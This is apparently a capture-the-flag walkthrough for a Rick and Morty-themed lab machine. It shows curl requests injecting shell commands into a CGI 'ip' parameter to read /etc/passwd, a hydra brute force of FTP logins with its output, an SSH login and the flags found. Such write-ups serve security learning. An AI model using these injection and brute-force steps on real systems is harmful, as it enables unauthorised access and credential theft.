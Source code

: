 

    curl -s  http://192.168.56.10//cgi-bin/tracertool.cgi?ip=127.0.0.1
    curl -s -G --data-urlencode "ip=127.0.0.1" http://192.168.56.10//cgi-bin/tracertool.cgi 
    curl -s -G --data-urlencode "ip=127.0.0.1;cat /etc/passwd" http://192.168.56.10//cgi-bin/tracertool.cgi
    curl -s -G --data-urlencode "ip=127.0.0.1;tac /etc/passwd" http://192.168.56.10//cgi-bin/tracertool.cgi
    curl -s -G --data-urlencode "ip=127.0.0.1;more /etc/passwd" http://192.168.56.10//cgi-bin/tracertool.cgi


==> Get a list of users
    
    root
    RickSanchez
    Morty
    Summer

## Brute force FTP service

    └─$ hydra -L users.txt -p winter -t4 ftp://192.168.56.10
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-10 08:54:41
    [DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
    [DATA] attacking ftp://192.168.56.10:21/
    [21][ftp] host: 192.168.56.10   login: Summer   password: winter
    1 of 1 target successfully completed, 1 valid password found


└─$ ssh Summer@192.168.56.10 -p 22222

[Summer@localhost ~]$ more FLAG.txt 
FLAG{Get off the high road Summer!} - 10 Points


└─$ strings Safe_Password.jpg                 
JFIF
Exif
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek

└─$ cat journal.txt
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points 

[Summer@localhost ThisDoesntContainAnyFlags]$ more NotAFlag.txt 
hhHHAaaaAAGgGAh. You totally fell for it... Classiiiigihhic.
But seriously this isn't a flag..


┌──(kali㉿kali)-[~/OSCP/boxes/Rickdiculously]
└─$ ./safe 131333                                                                      1 ⨯
decrypt:        FLAG{And Awwwaaaaayyyy we Go!} - 20 Points
